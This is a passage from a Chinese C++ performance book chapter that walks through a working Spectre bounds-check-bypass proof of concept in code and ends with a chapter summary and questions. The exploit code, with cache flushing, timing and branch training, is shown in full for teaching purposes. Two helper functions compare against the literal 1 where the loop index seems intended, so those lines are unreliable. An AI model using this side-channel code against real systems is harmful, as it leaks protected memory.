

图 4.18 – Spectre 攻击后的内存和缓存状态

如果我们可以测量读取数组`t`的每个元素所需的时间，我们就可以找出由值`a[i]`索引的那个元素；这就是我们本不应该知道的秘密值！

## Spectre by example

Spectre 攻击需要几个部分来组合；我们将逐一介绍它们，因为总的来说，这对于一本书来说是一个相当大的编码示例（这个特定的实现是根据 2018 年 CPPCon 上 Chandler Carruth 给出的示例进行的变体）。

我们需要的一个组件是一个准确的计时器。我们可以尝试使用 C++高分辨率计时器：

```cpp
using std::chrono::duration_cast;
using std::chrono::nanoseconds;
using std::chrono::high_resolution_clock;
long get_time() {
    return duration_cast< nanoseconds>(
        high_resolution_clock::now().time_since_epoch()
        ).count();
}
```

这个计时器的开销和分辨率取决于实现；标准不要求任何特定的性能保证。在 x86 CPU 上，我们可以尝试使用**时间戳计数器**（**TSC**），它是一个硬件计数器，计算自过去某个时间点以来的周期数。使用循环计数作为计时器通常会导致测量结果更加嘈杂，但计时器本身更快，这在这里很重要，因为我们将尝试测量从内存中加载单个值需要多长时间。GCC、Clang 和许多其他编译器都有一个内置函数来访问这个计数器：

```cpp
long get_time() {
    unsigned int i;
    return __rdtscp(&i);  // GCC/Clang intrinsic function
}
```

无论如何，我们现在有了一个快速的计时器。下一步是计时数组。实际上，它并不像我们在图中暗示的那样简单，只是一个整数数组：整数在内存中太靠近了；将一个加载到缓存中会影响访问其邻居所需的时间。我们需要将值远远地分开：

```cpp
constexpr const size_t num_val = 256;
struct timing_element { char s[1024]; };
static timing_element timing_array[num_val];
::memset(timing_array, 1, sizeof(timing_array));
```

在这里，我们将只使用`timing_element`的第一个字节；其余的是为了在内存中强制距离。1024 字节的距离并没有什么神奇之处；它只是*足够大*，但对于你来说，这是需要通过实验来确定的：如果距离太小，攻击就会变得不可靠。计时数组中有 256 个元素。这是因为我们将逐字节读取*秘密内存*。因此，在我们之前的例子中，数组`a[i]`将是一个字符数组（即使实际的数据类型不是`char`，我们仍然可以逐字节读取它）。初始化计时数组在严格意义上来说并不是必要的；没有任何东西依赖于这个数组的内容。

我们现在准备看代码的*核心*。接下来是一个简化的实现：它缺少一些我们将在后面添加的必要的细节，但通过首先关注关键部分来解释代码会更容易一些。

我们需要的数组是我们将要越界读取的。

```cpp
size_t size = …;
const char* data = …;
size_t evil_index = …;
```

这里`size`是`data`的真实大小，`evil_index`大于`size`：它是数据数组之外的秘密值的索引。

接下来，我们将*训练*分支预测器：我们需要它学会更有可能的分支是访问数组的分支。为此，我们生成一个始终指向数组的有效索引（我们马上就会看到确切的方法）。这就是我们的`ok_index`：

```cpp
const size_t ok_index = …; // Less than size
constexpr const size_t n_read = 100;
for (size_t i_read = 0; i_read < n_read; ++i_read) {
    const size_t i = (i_read & 0xf) ? ok_index : evil_index;
    if (i < size) {
        access_memory(timing_array + data[i]);
    }
}
```

然后我们读取位置`timing_array + data[i]`处的内存，其中`i`要么是`ok`索引，要么是`evil`索引，但前者发生的频率要比后者高得多（我们尝试读取秘密数据只有 16 次中的一次，以保持分支预测器对成功读取的训练）。请注意，实际的内存访问受到有效的边界检查的保护；这是至关重要的：我们从未真正读取我们不应该读取的内存；这段代码是 100%正确的。

访问内存的函数，在概念上只是一个内存读取。实际上，我们必须应对聪明的优化编译器，它会尝试消除多余或不必要的内存操作。这是一种方法，它使用内在的汇编语言（读取指令实际上是由编译器生成的，因为位置`*p`被标记为输入）：

```cpp
void access_memory(const void* p) {
    __asm__ __volatile__ ( "" : : 
        "r"(*static_cast<const uint8_t*>(p)) : "memory" );
}
```

我们运行预测-误判循环多次（在我们的例子中是`100`次）。现在我们期望`timing_array`中的一个元素在缓存中，所以我们只需要测量访问每个元素所需的时间。这里的一个注意事项是，顺序访问整个数组是行不通的：预取会迅速启动并将我们即将访问的元素移入缓存。大多数情况下非常有效，但不是我们现在需要的。相反，我们必须以随机顺序访问数组的元素，并将访问每个元素所需的时间存储在内存访问延迟数组中：

```cpp
std::array<long, num_val> latencies = {};
for (size_t i = 0; i < num_val; ++i) {
    const size_t i_rand = (i*167 + 13) & 0xff;  // Randomized
    const timing_element* const p = timing_array + i_rand;
    const long t0 = get_time();
    access_memory(p);
    latencies[i_rand] = get_time() - t0;
}
```

你可能会想，为什么不简单地寻找一个快速访问？有两个原因：首先，我们不知道对于任何特定的硬件来说*快速*到底意味着什么；我们只知道它比*正常*更快。因此，我们也必须测量什么是*正常*。其次，任何单独的测量都不会是 100%可靠的：有时，计算会被另一个进程或操作系统中断；整个操作序列的确切时间取决于 CPU 在此时正在做什么，等等。这个过程只是很有可能会揭示秘密内存位置的值，但并不是 100%保证的，所以我们必须尝试多次并平均结果。

在执行此操作之前，我们看到代码中有几个遗漏。首先，它假设定时数组值尚未在缓存中。即使在我们开始时是真的，但在成功窥视第一个秘密字节之后，它也不会是真的。我们必须在攻击下一个要读取的字节之前每次都从缓存中清除定时数组：

```cpp
for (size_t i = 0; i < num_val; ++i) {
    _mm_clflush(timing_array + i);    // Un-cache the array
}
```

再次，我们使用 GCC/Clang 内置函数；大多数编译器都有类似的东西，但函数名称可能会有所不同。

其次，攻击只有在推测执行持续时间足够长，以便在 CPU 弄清楚应该采取哪个分支之前发生两次内存访问（数据和定时数组）时才能生效。实际上，按照现有的代码，推测执行上下文中的时间不够长，因此我们必须使得计算正确分支更加困难。有多种方法可以做到这一点；在这里，我们使分支条件依赖于从内存中读取某个值。我们将数组大小复制到另一个访问速度较慢的变量中：

```cpp
std::unique_ptr<size_t> data_size(new size_t(size));
```

现在我们必须确保在我们需要读取它之前将该值从缓存中清除，并使用存储在`*data_size`中的数组大小值，而不是原始的`size`值：

```cpp
_mm_clflush(&*data_size);
for (volatile int z = 0; z < 1000; ++z) {}  // Delay
const size_t i = (i_read & 0xf) ? ok_index : evil_index;
if (i < *data_size) {
    access_memory(timing_array + data[i]);
}
```

在前面的代码中还有一个神奇的*延迟*，一些无用的计算将缓存刷新与数据大小的访问分开（它击败了可能的指令重排序，让 CPU 更快地访问数组大小）。现在条件`i < *data_size`需要一些时间来计算：CPU 需要在知道结果之前从内存中读取值。分支根据更可能的结果进行预测，即有效索引，因此数组被进行了推测性访问。

## 幽灵，释放

最后一步是将所有内容汇总并多次运行该过程，以积累统计上可靠的测量数据（鉴于单个指令的定时测量非常嘈杂，因为计时器本身所需的时间大约与我们试图测量的时间一样长）。

以下函数攻击数据数组之外的单个字节：

```cpp
char spectre_attack(const char* data, 
                    size_t size, size_t evil_index) {
  constexpr const size_t num_val = 256;
  struct timing_element { char s[1024]; };
  static timing_element timing_array[num_val];
  ::memset(timing_array, 1, sizeof(timing_array));
  std::array<long, num_val> latencies = {};
  std::array<int, num_val> scores = {};
  size_t i1 = 0, i2 = 0;      // Two highest scores
  std::unique_ptr<size_t> data_size(new size_t(size));
  constexpr const size_t n_iter = 1000;
  for (size_t i_iter = 0; i_iter < n_iter; ++i_iter) {
    for (size_t i = 0; i < num_val; ++i) {
      _mm_clflush(timing_array + i);  // Un-cache the array
    }
    const size_t ok_index = i_iter % size;
    constexpr const size_t n_read = 100;
    for (size_t i_read = 0; i_read < n_read; ++i_read) {
      _mm_clflush(&*data_size);
      for (volatile int z = 0; z < 1000; ++z) {}  // Delay
      const size_t i = (i_read & 0xf) ? ok_index : 
        evil_index;
      if (i < *data_size) {
        access_memory(timing_array + data[i]);
      }
    }
    for (size_t i = 0; i < num_val; ++i) {
      const size_t i_rand = (i*167 + 13) & 0xff;
       // Randomized
      const timing_element* const p = timing_array + 
        i_rand;
      const long t0 = get_time();
      access_memory(p);
      latencies[i_rand] = get_time() - t0;
    }
    score_latencies(latencies, scores, ok_index);
    std::tie(i1, i2) = best_scores(scores);
    constexpr const int threshold1 = 2, threshold2 = 100;
    if (scores[i1] > 
       scores[i2]*threshold1 + threshold2) return i1;
  }
  return i1;
}
```

对于定时数组的每个元素，我们将计算一个分数，即该元素成为最快访问的次数。我们还跟踪第二快的元素，它应该只是常规的、访问速度较慢的数组元素之一。我们会进行多次迭代：理想情况下，直到获得结果，但实际上，我们必须在某个时候放弃。

一旦最佳分数和次佳分数之间出现足够大的差距，我们就知道我们已经可靠地检测到了定时数组的*快*元素，即由*secret*字节的值索引的元素（如果我们在达到最大迭代次数之前没有得到可靠的答案，攻击就失败了，尽管我们可以尝试使用到目前为止最好的猜测）。

我们有两个实用函数来计算延迟的平均分数并找到两个最佳分数；只要它们能给出正确的结果，可以按任何方式实现。第一个函数计算平均延迟并增加具有略低于平均延迟的时间元素的分数（*略低*的阈值必须经过实验调整，但不太敏感）。请注意，我们希望一个数组元素的访问速度明显更快，因此在计算平均延迟时可以跳过它（理想情况下，该元素的延迟应比其余元素低得多，其余元素的延迟应该都相同）：

```cpp
template <typename T> 
double average(const T& a, size_t skip_index) {
    double res = 0;
    for (size_t i = 0; i < a.size(); ++i) {
        if (1 != skip_index) res += a[i];
    }
    return res/a.size();
}
template <typename L, typename S> 
void score_latencies(const L& latencies, S& scores, 
                     size_t ok_index) {
  const double average_latency = 
    average(latencies, ok_index);
  constexpr const double latency_threshold = 0.5;
  for (size_t i = 0; i < latencies.size(); ++i) {
    if (ok_index != 1 && latencies[i] <
        average_latency*latency_threshold) ++scores[i];
  }
}
```

第二个函数只是在数组中找到两个最佳分数：

```cpp
template<typename S> 
std::pair<size_t, size_t> best_scores(const S& scores) {
  size_t i1 = -1, i2 = -1;
  for (size_t i = 0; i < scores.size(); ++i) {
    if (scores[i] > scores[i1]) {
      i2 = i1;
      i1 = i;
    } else 
      if (i != i1 && scores[i] > scores[i2]) {
          i2 = i;
      }
    }
    return { i1, i2 };
}
```

现在我们有一个函数，它返回指定数组之外的单个字节的值，而不是直接读取这个字节。我们准备使用它来访问一些秘密数据！为了演示，我们将分配一个非常大的数组，但通过指定一个小值作为数组大小，大部分数组都被*禁止访问*。实际上，这是你今天可以演示这种攻击的唯一方式：自发现以来，大多数计算机已经修补了 Spectre 漏洞，因此，除非你有一台隐藏在山洞中并且几年没有更新的机器，否则这种攻击不会对你真正不允许访问的任何内存起作用。这些补丁并不会阻止你使用 Spectre 攻击你被允许访问的任何数据，但你必须检查代码并证明它确实返回值而不是直接访问内存。这就是我们要做的：我们的`spectre_attack`函数不会读取指定大小的数据数组之外的任何内存，因此我们可以创建一个大小是指定大小两倍的数组，并将秘密消息隐藏在上半部分。

```cpp
int main() {
    constexpr const size_t size = 4096;
    char* const data = new char[2*size];
    strcpy(data, "Innocuous data");
    strcpy(data + size, "Top-secret information");
    for (size_t i = 0; i < size; ++i) {
        const char c =
            spectre_attack(data, strlen(data) + 1, size + 
                i);
        std::cout << c << std::flush;
        if (!c) break;
    }
    std::cout << std::endl;
    delete [] data;
}
```

再次检查我们给`spectre_attack`函数的值：数组的*大小*只是存储在数组中的字符串的长度；代码除了在推测执行上下文中以外，不会访问任何其他内存。所有内存访问都受到正确的边界检查的保护。然而，这个程序逐字节地揭示了第二个字符串的内容，而这个字符串从未被直接读取。

总之，我们利用了推测执行上下文来窥视我们不允许访问的内存。因为访问该内存的分支条件是正确的，所以无效访问错误仍然是一个*潜在错误*；它实际上从未发生过。所有错误预测分支的结果都被撤消，除了一个：被访问的值仍然留在缓存中，因此对相同值的下一次访问会更快。通过仔细测量内存访问时间，我们可以弄清楚那个值是什么！为什么我们这样做，当我们关心的是性能，而不是黑客行为？主要是为了确认处理器和内存确实按照我们描述的方式运行：推测执行确实发生，缓存确实起作用并使数据访问更快。

# 总结

在本章中，我们学习了内存系统的工作原理：简而言之，缓慢。CPU 和内存性能的差异造成了内存差距，快速的 CPU 受到内存性能低下的限制。但内存差距中也蕴含着潜在解决方案的种子：我们可以用多个 CPU 操作来交换一个内存访问。

我们还进一步了解到，内存系统非常复杂和分层，并且它没有单一的速度。如果最终陷入最坏情况，这可能会严重影响程序的性能。但是，再次强调，关键是将其视为一种机会而不是负担：优化内存访问所带来的收益可能会远远超过开销。

正如我们所看到的，硬件本身提供了几种工具来改善内存性能。除此之外，我们必须选择内存高效的数据结构，如果仅靠这一点还不够，还要选择内存高效的算法来提高性能。和往常一样，所有性能决策都必须受到测量的指导和支持。

到目前为止，我们所做的和测量的一切都是使用单个 CPU。实际上，自介绍的前几页以来，我们几乎没有提到今天几乎每台计算机都有多个 CPU 核心，通常还有多个物理处理器。这样做的原因非常简单：我们必须学会有效地使用单个 CPU，然后才能转向更复杂的多 CPU 问题。从下一章开始，我们将把注意力转向并发问题，以及如何有效地使用大型多核和多处理器系统。

# 问题

1.  什么是内存差距？

1.  哪些因素影响了观察到的内存速度？

1.  我们如何找到程序中访问内存是性能不佳的主要原因的地方？

1.  有哪些主要的优化程序以获得更好的内存性能的方法？
